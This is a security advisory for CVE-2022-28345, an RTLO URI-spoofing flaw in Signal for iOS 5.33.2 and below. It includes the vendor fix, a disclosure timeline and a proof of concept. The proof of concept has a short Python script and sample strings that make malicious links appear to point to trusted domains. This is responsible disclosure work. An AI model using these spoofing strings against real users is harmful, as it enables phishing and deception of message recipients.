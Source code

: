 ### Title
CVE-2022-28345 - Signal client for iOS version 5.33.2 and below are vulnerable to RTLO Injection URI Spoofing using malicious URLs such as gepj.net/selif#/moc.elpmaxe which would appear as example.com/#files/ten.jpeg

### CVE ID
CVE-2022-28345

### CVSS Score
N/A

### Internal IDs
SICK-2022-42

### Vendor
Signal

### Product
Signal iOS Client

### Product Versions
5.33.2 and below

### Vulnerability Details

An additional RTLO Injection URI Spoofing in the Signal client for iOS version 5.33.2 and below incorrectly renders RTLO encoded URLs beginning with a non-breaking space, and a hash character in the URL. This technique allowing a remote unauthenticated attacker to send 100% authentic looking links, appearing as any website URL by abusing the non-http & non-https automatic rendering of URLs on the iOS client application for top level domains. An attacker can spoof, for example, example.com, and masquerade any URL with a malicious destination. An attacker only requires a subdomain such as: gepj, txt, fdp, or xcod, which would appear as jpeg, txt, pdf, and docx respectively. This only affects iOS but can be sent via any other client.

### Vendor Response
Fixed in Signal iOS client 5.34 released around April 7-8th 2022 depending on your App Store.

Patch: [https://github.com/signalapp/Signal-iOS/commit/b0721e601e549996154127225c68769dfbfae506](https://github.com/signalapp/Signal-iOS/commit/b0721e601e549996154127225c68769dfbfae506)


### Proof of Concept

Send a message to someone, using natural looking domains, such as apple.com, imgur.com, dhl.com, etc.

`gepj.net/selif#/moc.rugmi`

Will appear as

`imgur.com/#files/ten.jpeg`

The use of the `#` character, and removal of `http`/`https` causes the Signal client to hyperlink the entire URL and bypasses previous related CVE's.

```python
#!/usr/bin/env python
# Modified:     sickcodes
# Authors:      zadewg
# Repo:         https://github.com/zadewg/RIUS
# Contact:      https://github.com/zadewg/RIUS, https://github.com/sickcodes
# Copyright:    zadewg (C) 2019, sickcodes (C) 2021
# Modified:     https://github.com/zadewg/RIUS
# License:      MIT

import sys

_LEGWEB = 'imgur.com'

_ATTWEB = 'gepj.net'

_SUBDIR = 'images'

_RTLO = (u'\u202e')

_LEGWEB = _LEGWEB[::-1]
_SUBDIR = _SUBDIR[::-1]

print(_LEGWEB+'/'+_SUBDIR)

_ATTFULL = _LEGWEB+'/'+_SUBDIR

print(_ATTFULL)

sys.stdout.write(' ' + _RTLO + (_ATTWEB + '/' + _SUBDIR + '#/' + _LEGWEB) +'\n')

```

This is due to the following RTLO character, and the abuse of trusted TLD domains:

`<0x202e>gepj.net/segami#/moc.rugmi`



#### Disclosure Timeline
* **2019-03-24** - Original research uncovered in related apps
* **2022-03-24** - Researchers meet each other
* **2022-03-24** - Additional bypass discovered
* **2022-03-24** - Signal notified
* **2022-04-02** - CVE Requested
* **2022-04-02** - CVE Assigned CVE-2022-28345
* **2022-04-04** - Vendor advised of CVE & sent the bypass PoC
* **2022-04-06** - Researcher confirms fix in 5.34
* **2022-04-07** - App Stores publish 5.34
* **2022-04-14** - Researcher publishes CVE, PoC, Video

### Links

[https://sick.codes/sick-2022-42](https://sick.codes/sick-2022-42)

[https://github.com/sickcodes/security/blob/master/advisories/SICK-2022-42.md](https://github.com/sickcodes/security/blob/master/advisories/SICK-2022-42.md)

[https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-28345](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-28345)

[https://nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-28345](https://nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-28345)

[https://github.com/zadewg/RIUS](https://github.com/zadewg/RIUS)

[https://blog.malwarebytes.com/social-engineering/2022/03/uri-spoofing-flaw-could-phish-whatsapp-signal-instagram-and-imessage-users/](https://blog.malwarebytes.com/social-engineering/2022/03/uri-spoofing-flaw-could-phish-whatsapp-signal-instagram-and-imessage-users/)

### Researchers

zadewg: [https://github.com/zadewg](https://github.com/zadewg)

Sick Codes: [https://github.com/sickcodes](https://github.com/sickcodes) || [https://twitter.com/sickcodes](https://twitter.com/sickcodes)